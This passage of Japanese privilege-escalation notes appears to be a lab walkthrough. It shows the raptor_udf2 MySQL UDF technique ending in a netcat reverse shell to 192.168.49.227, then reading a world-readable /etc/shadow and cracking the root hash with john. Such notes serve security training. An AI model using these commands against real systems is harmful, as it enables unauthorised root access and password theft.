 ```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
```

plugin_dirを調べてValueに入っているパス(/usr/lib/mysql/plugin/)をメモする。
```
mysql> show variables like '%plugin%';
+-------------------------------+------------------------+
| Variable_name                 | Value                  |
+-------------------------------+------------------------+
| default_authentication_plugin | mysql_native_password  |
| plugin_dir                    | /usr/lib/mysql/plugin/ |
+-------------------------------+------------------------+
```
上記でメモしたパスを指定して、下記のコマンドを実行する。
```
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

コマンドの実行に成功したら、do_system関数を利用してreverse shellを張る。
```
select do_system('/bin/nc 192.168.49.227 4444 -e /bin/bash');
```

## Weak File Permissions - Readable /etc/shadow
/etc/shadowファイルにはユーザーパスワードハッシュが記述されている。  
通常はrootユーザーのみが読み取ることができるが、設定ミスなどにより一般ユーザーでも読み取り可能なことがある。  
まずは、読み取り可能かファイルの権限を確認する。
```
ls -l /etc/shadow

-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```
読み取り可能である場合、ファイルの中身を閲覧してrootのハッシュをコピーしてテキストファイルに保存する.

```
cat /etc/shadow

root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::


cat hash.txt

root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
```
得られたrootパスワードのハッシュをjohnでパスワードクラックする。
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

